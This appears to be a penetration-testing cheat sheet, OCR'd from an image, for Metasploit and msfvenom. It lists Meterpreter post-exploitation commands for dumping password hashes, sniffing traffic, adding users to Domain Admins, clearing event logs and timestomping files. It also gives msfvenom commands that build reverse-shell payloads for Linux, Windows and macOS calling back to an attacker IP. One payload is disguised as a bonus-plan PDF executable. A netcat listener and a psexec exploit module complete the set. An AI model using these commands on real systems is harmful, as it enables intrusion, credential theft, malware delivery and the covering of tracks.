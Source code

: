 | ``background`` | Run your current Meterpreter shell in the background. |

| ``hashdump`` | Dump all hashes on the target. use sniffer Load the sniffer module. |

| ``sniffer_interfaces`` | List the available interfaces on the target. |

| ``sniffer_dump <interfaceID> pcapname`` | Start sniffing on the remote target. |

| ``sniffer_start <interfaceID> packet-buffer`` | Start sniffing with a specific range for a packet buffer. |

| ``sniffer_stats <interfaceID>`` | Grab statistical information from the interface you are sniffing. |

| ``sniffer_stop <interfaceID>`` | Stop the sniffer. |

| ``add_user <username> <password> -h <ip>`` | Add a user on the remote target. |

| ``add_group_user <"Domain Admins"> <username> -h <ip>`` | Add a username to the Domain Administrators group on the remote target. |

| ``clearev`` | Clear the event log on the target machine. |

| ``timestomp`` | Change file attributes, such as creation date (antiforensics measure). |

| ``reboot`` | Reboot the target machine. |

| `----------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------------------------------------------------------------------------- |

| ``msfvenom -l payloads`` | List Payloads |

| ``msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`` | Let's build a simple linux stageless payload with msfvenom |

| ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`` | We can also use msfvenom to craft an executable (.exe) file that can be run on a Windows system to provide a shell. |

| ``sudo nc -lvnp 443`` | Listener |

| `**Metasploit**` |  |

| ``use exploit/windows/smb/psexec`` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec` |

| ``shell`` | Command used in a meterpreter shell session to drop into a `system shell` |

| ``msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`` | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload` |

| ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`` | MSFvenom command used to generate a Windows-based reverse shell stageless payload |

| ``msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`` | MSFvenom command used to generate a MacOS-based reverse shell payload |
